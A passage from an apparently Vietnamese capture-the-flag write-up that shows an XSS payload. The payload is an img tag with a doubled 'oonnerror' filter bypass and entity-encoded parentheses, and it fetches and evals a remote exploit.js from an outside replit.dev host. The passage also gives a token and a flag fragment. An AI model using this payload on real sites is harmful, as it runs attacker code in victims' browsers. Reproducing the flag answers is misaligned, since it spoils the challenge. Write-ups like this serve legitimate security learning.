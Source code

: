 Và chúng ta có payload như sau : 

```html
<img/src="x"/oonnerror="fetch&#x28;'https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js'&#x29;.then&#x28;r=&gt;r.text&#x28;&#x29;&#x29;.then&#x28;data=&gt;eval&#x28;data&#x29;&#x29;" /
```

![image](./images/image59.png)

Submit purell-token{y0u_4r3_th3_0n3_wh0_c4ll5} và mình có part 7 của flag : _1nf3c71ng_3v34y_1}

![image](./images/image60.png)